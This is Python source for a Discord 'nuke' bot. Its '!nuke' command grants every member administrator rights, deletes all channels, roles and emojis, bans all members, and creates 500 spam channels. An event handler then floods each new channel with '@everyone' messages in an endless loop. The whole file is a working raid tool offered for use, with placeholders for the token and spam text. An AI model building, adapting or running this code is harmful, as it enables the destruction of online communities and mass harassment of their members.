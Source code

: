 import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio

token = "YOUR_TOKEN"


SPAM_CHANNEL =  ["TEXT_OF_SPAMMED_CHANNELS"]
SPAM_MESSAGE = ["@everyone xOZIL pozdrawia"]

client = commands.Bot(command_prefix="!")


@client.event
async def on_ready():
   print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 

Support Server: https://discord.gg/break or https://discord.gg/eYbnGqMaQ4
 ''')
   await client.change_presence(activity=discord.Game(name="BOTS_DESCRIPTION"))

@client.command()
@commands.is_owner()
async def stop(ctx):
    await ctx.bot.logout()
    print (Fore.GREEN + f"{client.user.name} has logged out successfully." + Fore.RESET)

@client.command()
async def nuke(ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
      role = discord.utils.get(guild.roles, name = "@everyone")
      await role.edit(permissions = Permissions.all())
      print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
      print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
      try:
        await channel.delete()
        print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
     try:
       await member.ban()
       print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)
    for role in guild.roles:
     try:
       await role.delete()
       print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)
    for emoji in list(ctx.guild.emojis):
     try:
       await emoji.delete()
       print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
      user = ban_entry.user
      try:
        await user.unban("YOUR_USERNAME_AND_TAG")
        print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)
    await guild.create_text_channel("TEXT_OF_SPAMMED_CHANNELS")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age = 0, max_uses = 0)
        print(f"New Invite: {link}")
    amount = 500
    for i in range(amount):
       await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return

@client.event
async def on_guild_channel_create(channel):
  while True:
    await channel.send(random.choice(SPAM_MESSAGE))

client.run(token, bot=True)
